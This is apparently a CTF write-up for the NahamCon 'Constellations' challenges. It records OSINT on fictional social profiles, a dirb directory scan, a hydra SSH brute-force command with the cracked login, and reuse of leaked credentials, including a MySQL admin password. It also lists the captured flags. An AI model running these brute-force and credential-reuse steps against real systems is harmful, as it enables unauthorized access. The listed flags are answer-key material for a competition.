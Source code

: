 ## LYRA
- LINKEDIN PAGE - https://www.linkedin.com/in/lyra-patte-a8193b207
- TWITTER - https://twitter.com/LyraPatte
- FROM TWITTER, ACCESS - 'https://constellations.page/constellations-documents/1/'
- RUN DIRB SCAN ON 'https://constellations.page/constellations-documents/' TO FIND:
```
https://constellations.page/constellations-documents/5/
flag{bd869e6193c27308d2fd3ad4b427e8c3}
```

## HYDRAULIC
- USING CREDENTIAL LISTS OBTAINED FROM 'LYRA'
- USE HYDRA TO BURTE MULTIPLE CREDENTIALS
```
hydra -L userlist.lst -P passlist.lst 35.239.227.150 -s PORT -t 4 ssh
[30614][ssh] host: 35.239.227.150   login: pavo   password: starsinthesky
```
SSH WITH NEW CREDENTIALS
```
ssh pavo@challenge.nahamcon.com -p PORT
cat flag.txt
flag{cadbbfd75d2547700221f8c2588e026e}
```

## ORION
TWITTER - https://twitter.com/OrionMorra
- CREDS ON TWITTER
  - USER - orion
  - PASS - stars4love4life
```
flag{0bcffb17cbcbf4359a42ec45d0ccaf2}
```

## INTERNAL
WITH ORIONS CREDS, RUN:
```
sh create_mysql_admin_user.sh
========================================================================
You can now connect to this MySQL Server using:

    mysql -uadmin -pH1SZbWwoG5To -h<host> -P<port>

Please remember to change the above password as soon as possible!
MySQL user 'root' has no password but only allows local connections
========================================================================
```
SOMEWHAT WORKING COMMAND:
```
mysql -u admin -p H1SZbWwoG5To -h internal-4ca98cd867aed7b8-b779764cc-h4lsm -P 30444
```
